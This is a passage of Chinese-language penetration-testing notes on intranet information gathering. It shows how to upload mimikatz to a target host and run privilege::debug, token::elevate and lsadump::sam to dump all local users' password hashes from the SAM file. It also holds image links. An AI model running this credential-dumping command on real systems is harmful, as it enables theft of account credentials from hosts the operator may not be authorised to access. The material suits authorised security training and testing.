 ![Untitled](%E5%86%85%E7%BD%91%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%20e8733b02d1614977972a074a690afd8e/Untitled%207.png)

### 在线读取本地SAM文件

读取`SAM`文件中保存的用户登录凭据，可以导出当前系统中所有本地用户的哈希值。

将`mimikatz.exe`上传到目标主机，执行以下命令：

```powershell
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" exit
# privilege::debug提升至DebugPrivilege权限
# token::elevate提升至SYSTEM权限
# lsadump::sam用于读取本地SAM文件
```

![Untitled](%E5%86%85%E7%BD%91%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%20e8733b02d1614977972a074a690afd8e/Untitled%208.png)
